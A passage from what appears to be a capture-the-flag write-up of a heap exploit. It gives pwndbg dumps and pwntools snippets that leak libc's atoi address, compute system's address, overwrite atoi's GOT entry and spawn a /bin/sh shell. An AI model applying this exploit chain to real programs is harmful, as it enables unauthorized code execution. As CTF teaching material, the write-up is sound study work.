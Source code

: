 ```
pwndbg> tele 0x55a07741c370
00:0000│  0x55a07741c370 ◂— 0
01:0008│  0x55a07741c378 ◂— 0x71 /* 'q' */
02:0010│  0x55a07741c380 —▸ 0x55a037846ff8 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0x7f22091a8070 ◂— push rbx
```
`0x55a07741c380` which is the first pointer of the second chunk, now points to `atoi-0x40`  

Moving on, now it's time to move `curr` to become the address of `atoi-0x40` and then we calls `test_level()` to print `curr + 0x40`, which is `atoi - 0x40 + 0x40`, which is the `plt` address of `atoi` !!
```py
explore(1) # now curr points to the second chunk 
explore(0) # now curr points to atoi - 0x40
test_level() # leaks curr+0x40 now!
```
Output:
```
Level data: \xa0\xa4\xe8\xc8\xd9\x7f\x00\x00\xb6\x100\x08\xd3U\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P@0\x08\xd3U\x00\x00
```
And of course we parse it with python! And calculate the address of `system` so that we can overwrite `atoi` to it later.
```py
leak = p.recvuntil(b'\x7f', drop = False)[-6:].ljust(8, b'\x00')
leak = u64(leak)
#print(hex(printf_addr))
sys_addr = leak - libc.sym['atoi'] + libc.sym['system']
```
Be reminded that now `curr` still points to `atoi-0x40`. We can call `edit_level()` directly to write stuff to `curr + 0x40`(data section of chunk), which is `atoi - 0x40 + 0x40` at this moment, which would write `atoi` into `system`
```
[0x55b455771038] atoi@GLIBC_2.2.5 -> 0x55b45576e0a6 (atoi@plt+6) ◂— push 7
```
to 
```
[0x55b455771038] atoi@GLIBC_2.2.5 -> 0x7f1a5c1b7490 (system) ◂— test rdi, rdi
```
And right after `atoi` is called:
```
► 0x55b45576e1e0 <get_num+39>        call   atoi@plt                    <atoi@plt>
        nptr: 0x7fff2ae1e010 ◂— 0x68732f6e69622f /* '/bin/sh' */
``` 
WE GET THE SHELL!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```
pwndbg> ni
[Attaching after process 961807 vfork to child process 962407]
[New inferior 2 (process 962407)]
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
[Detaching vfork parent process 961807 after child exec]
[Inferior 1 (process 961807) detached]
process 962407 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 3: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
```